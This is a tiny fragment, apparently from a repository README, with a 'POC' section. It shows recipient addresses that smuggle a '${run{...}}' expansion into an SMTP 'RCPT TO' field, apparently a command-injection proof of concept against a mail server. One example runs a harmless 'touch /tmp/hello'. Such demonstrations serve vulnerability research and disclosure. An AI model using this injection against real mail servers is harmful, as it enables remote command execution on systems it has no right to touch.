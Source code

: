 <languages  />

POC
---

     'RCPT TO "${run{...}}@relaydomain.com"'

     noob+${run{/usr/bin/touch /tmp/hello}}@myserver.com